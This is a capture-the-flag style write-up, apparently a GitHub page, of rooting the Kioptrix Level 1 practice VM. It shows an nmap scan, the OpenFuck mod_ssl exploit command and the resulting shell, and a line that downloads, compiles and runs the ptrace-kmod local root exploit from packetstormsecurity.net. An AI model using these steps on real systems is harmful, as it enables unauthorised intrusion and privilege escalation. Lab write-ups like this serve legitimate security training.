 ### Kioptrix Level 1 \(Beginner Level VM\)

```
kaipowered@debian:~/Documents/Vulnhub/Kioptrix$ nmap -sC -sV -oA nmapscan 192.168.8.4

Starting Nmap 7.40 ( https://nmap.org ) at 2017-08-16 14:13 +08
Nmap scan report for 192.168.8.4
Host is up (0.68s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-08-16T06:15:47+00:00; +1m51s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: mean: 1m50s, deviation: 0s, median: 1m50s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.74 seconds
```

====================================================

No interesting files/directories found in dirbuster

====================================================

The vulnerable service is

`443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b`

* searchploit this "mod\_ssl/2.8.4"

* found available exploit for the vulnerable mod\_ssl/2.8.4

* openfuck exploit: [https://www.exploit-db.com/exploits/764/](https://www.exploit-db.com/exploits/764/)

* updating the exploit: [http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/)

* if there are errors in compilation install the following libssl versions.

* link on how i solved the compilation error: [http://www.chokepoint.net/2017/04/fixing-and-troubleshooting-openfuck.html](http://www.chokepoint.net/2017/04/fixing-and-troubleshooting-openfuck.html)

* after compiling and generated the exec file, run this command` ./openfuck 0x6b 192.168.8.4 443 -c 40`

    kaipowered@debian:~/Documents/Vulnhub/Kioptrix$ ./openfuck 0x6b 192.168.8.4 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
    * #hackarena  irc.brasnet.org                                     *
    * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
    * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
    * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
    *******************************************************************

    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f81e8
    Ready to send shellcode
    Spawning shell...
    bash: no job control in this shell
    bash-2.05$ 
    exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304- 
    --03:14:47--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to dl.packetstormsecurity.net:80... connected!
    HTTP request sent, awaiting response... 301 Moved Permanently
    Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
    --03:14:48--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to dl.packetstormsecurity.net:443... connected!
    HTTP request sent, awaiting response... 200 OK
    Length: 3,921 [text/x-csrc]

        0K ...                                                   100% @ 478.64 KB/s

    03:14:50 (478.64 KB/s) - `ptrace-kmod.c' saved [3921/3921]

    [+] Attached to 6502
    [+] Waiting for signal
    [+] Signal caught
    [+] Shellcode placed at 0x4001189d
    [+] Now wait for suid shell...

we got root!

Note:

```
I tried dirbustering the web server but i haven't found any interesting files/directories.

I also searched some available exploits in rpcbind but in turns out that the nfs protocol must be present or active in order to exploit the rpc service.

I also tried the exploit/multi/samba/usermap\_script but it didn't work.

This vm is for beginners.
```



